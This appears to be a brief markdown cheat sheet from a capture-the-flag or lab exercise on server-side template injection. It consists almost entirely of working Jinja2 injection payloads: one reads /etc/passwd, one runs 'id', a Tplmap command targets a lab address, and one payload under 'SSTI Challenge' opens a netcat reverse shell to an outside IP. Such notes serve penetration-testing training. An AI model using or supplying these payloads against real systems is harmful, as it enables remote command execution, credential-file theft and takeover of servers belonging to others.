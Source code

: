 # Obscure Vulnerabilities

```
SSTI
```
Payload all the things resource: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#basic-injection

Manual exploitation example:

{{config.__class__.__init__.__globals__['os'].popen(cat /etc/passwd).read()}}

Automated exploitation

Tool to use could be Tplmap https://github.com/epinna/tplmap

Example:

./tplmap.py -u http://10.10.10.10:5000 -d 'noot' --os-cmd "cat /etc/passwd"


```
Section 1 SSTI Challenge
```

{{2+2}}

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.64.191 9001 >/tmp/f').read() }}

